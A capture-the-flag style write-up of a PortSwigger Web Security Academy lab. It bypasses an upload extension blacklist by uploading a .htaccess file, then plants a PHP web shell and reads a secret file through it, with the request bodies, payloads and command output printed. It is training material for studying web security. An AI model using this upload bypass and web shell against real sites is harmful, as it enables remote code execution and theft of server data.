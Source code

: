 # 1 - Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter


----------------------------------------------

Reference: https://portswigger.net/web-security/file-upload

----------------------------------------------

Generated endpoint: https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net

Update .htaccess:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .l33t

```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/1.png)

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/2.png)

Upload Phpinfo():

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="test.l33t"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/3.png)

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/4.png)


Update cmdshell:

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="cmd.l33t"
Content-Type: application/octet-stream

<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
}
```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/5.png)

<br>

RCE:

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=whoami
carlos

https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=cat%20/home/carlos/secret
MzrfsTWgFr82UcKq9wFC0hObV7YSVmlq

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/6.png)

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/7.png)
